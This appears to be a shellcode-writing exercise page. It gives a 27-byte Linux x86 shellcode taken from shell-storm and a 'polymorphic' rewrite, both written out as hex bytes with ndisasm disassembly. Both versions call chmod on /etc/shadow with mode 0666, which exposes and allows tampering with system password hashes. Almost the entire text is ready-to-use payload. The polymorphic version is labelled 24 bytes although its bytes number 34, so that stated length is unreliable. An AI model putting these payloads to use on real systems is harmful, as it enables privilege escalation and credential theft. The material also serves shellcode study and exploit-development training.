 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-566.php)

Length: 27 bytes

Obtain from running: 

    echo -ne "\xb0\x0f\x99\x52\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x66\xb9\xb6\x01\xcd\x80" | ndisasm -u -

    ; chmod("//etc/shadow", 0666);
    00000000  B00F              mov al,0xf
    00000002  99                cdq
    00000003  52                push edx
    00000004  6861646F77        push dword 0x776f6461
    00000009  68632F7368        push dword 0x68732f63
    0000000E  682F2F6574        push dword 0x74652f2f
    00000013  89E3              mov ebx,esp
    00000015  66B9B601          mov cx,0x1b6
    00000019  CD80              int 0x80


    
  
 ## Polymorphic shellcode

Length: 24 bytes  

Obtain from running: 

    echo -ne "\x6a\x0f\x58\x51\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -

    00000000  6A0F              push byte +0xf
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6861646F77        push dword 0x776f6461
    00000009  68632F7368        push dword 0x68732f63
    0000000E  682F2F6574        push dword 0x74652f2f
    00000013  89E3              mov ebx,esp
    00000015  68B6010000        push dword 0x1b6
    0000001A  59                pop ecx
    0000001B  CD80              int 0x80
    0000001D  6A01              push byte +0x1
    0000001F  58                pop eax
    00000020  CD80              int 0x80
